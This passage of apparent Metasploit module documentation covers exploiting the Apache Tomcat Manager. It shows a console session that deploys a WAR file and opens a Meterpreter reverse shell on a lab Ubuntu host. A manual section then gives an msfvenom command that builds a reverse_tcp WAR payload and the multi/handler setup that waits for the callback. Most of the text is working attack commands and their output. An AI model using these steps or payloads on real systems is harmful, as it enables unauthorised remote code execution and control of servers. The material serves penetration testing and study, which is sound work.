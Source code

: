     msf exploit(tomcat_mgr_deploy) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Using manually select target "Linux x86"
    [*] Uploading 1560 bytes as 9s0fTUyPa2HJCDnod2wEQJ.war ...
    [!] No active DB -- Credential data will not be saved!
    [*] Executing /9s0fTUyPa2HJCDnod2wEQJ/ndAfDrUY.jsp...
    [*] Undeploying 9s0fTUyPa2HJCDnod2wEQJ ...
    [*] Transmitting intermediate stager...(106 bytes)
    [*] Sending stage (335800 bytes) to 192.168.2.118
    [*] Meterpreter session 1 opened (192.168.2.117:4444 -> 192.168.2.118:33802) at 2017-01-14 11:06:13 -0500
    
    meterpreter > sysinfo
    Computer     : 192.168.2.118
    OS           : Ubuntu 16.04 (Linux 4.4.0-59-generic)
    Architecture : x64
    Meterpreter  : x86/linux
    ```

#### gui Interface
The permission `manager-gui`, is required for this exploitation, and the `PATH` should be `/manager/html`.  However, my attempts were unsuccessful, also wasn't able to figure out where the `check` command's `serverinfo` URL was located.  [Manual exploitation is possible](#manual-exploitation)

# Manual Exploitation

## Create payload
This was performed on Windows XP with the following permissions as the user that was used to login:

* Tomcat 6.0.48: `manager`
* Tomcat 7.0.73: `manager-gui`
* Tomcat 8.0.39: `manager-gui`

```
/metasploit-framework# msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.2.117 LPORT=7777 -f war -o meterp.war
Payload size: 6072 bytes
Final size of war file: 6072 bytes
Saved as: meterp.war
```

## Setup Handler

```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload java/meterpreter/reverse_tcp 
payload => java/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.2.117
lhost => 192.168.2.117
msf exploit(handler) > set lport 7777
lport => 7777
msf exploit(handler) > exploit

[*] Started reverse TCP handler on 192.168.2.117:7777 
[*] Starting the payload handler...
```
